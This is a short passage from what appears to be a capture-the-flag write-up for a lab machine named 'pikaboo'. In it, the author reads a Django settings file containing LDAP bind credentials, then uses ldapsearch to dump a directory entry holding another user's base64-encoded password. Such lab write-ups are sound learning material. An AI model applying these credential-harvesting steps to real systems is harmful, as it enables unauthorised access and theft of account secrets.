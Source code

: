 ## LDAP

```
www-data@pikaboo:/$ cat /opt/pokeapi/config/settings.py
# Production settings
import os
from unipath import Path

PROJECT_ROOT = Path(__file__).ancestor(2)
...[snip]...
DATABASES = {
    "ldap": {
        "ENGINE": "ldapdb.backends.ldap",
        "NAME": "ldap:///",
        "USER": "cn=binduser,ou=users,dc=pikaboo,dc=htb",
        "PASSWORD": "J~42%W?PFHl]g",
    },
    "default": {
        "ENGINE": "django.db.backends.sqlite3",
        "NAME": "/opt/pokeapi/db.sqlite3",
    }
}
...[snip]...
```

With these credentials we can now query ldap for all levels with the `sub` scope. This results in another user with his password encoded in base64.

```
www-data@pikaboo:/$ ldapsearch -s sub -b "dc=pikaboo,dc=htb" -D "cn=binduser,ou=users,dc=pikaboo,dc=htb" -w "J~42%W?PFHl]g"
# extended LDIF
#
# LDAPv3
# base <dc=pikaboo,dc=htb> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#
...[snip]...
# pwnmeow, users, ftp.pikaboo.htb
dn: uid=pwnmeow,ou=users,dc=ftp,dc=pikaboo,dc=htb
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
uid: pwnmeow
cn: Pwn
sn: Meow
loginShell: /bin/bash
uidNumber: 10000
gidNumber: 10000
homeDirectory: /home/pwnmeow
userPassword:: X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==
...[snip]...
```
